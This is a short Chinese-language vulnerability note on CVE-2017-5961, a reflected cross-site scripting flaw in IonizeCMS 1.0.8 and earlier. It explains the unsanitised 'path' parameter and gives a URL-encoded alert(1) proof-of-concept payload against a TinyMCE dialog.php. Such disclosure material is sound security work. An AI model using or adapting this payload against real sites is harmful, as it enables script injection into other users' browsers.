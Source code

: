 ```yaml
---
title: （CVE-2017-5961）IonizeCMS xss
id: zhfly2977
---
```


# （CVE-2017-5961）IonizeCMS xss

## 一、漏洞简介

该漏洞源于在‘path’HTTP GET参数传递到‘ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php’URL时，程序没有充分地过滤此参数中用户提交的数据。攻击者可利用该漏洞在浏览器中执行任意的HTML和脚本代码。

## 二、漏洞影响

<=Ionize 1.0.8

## 三、复现过程

```
http://0-sec.org/testcmsofgithub/ionize-master/ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php?path=%22%3E%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3Cscript%20%22 
```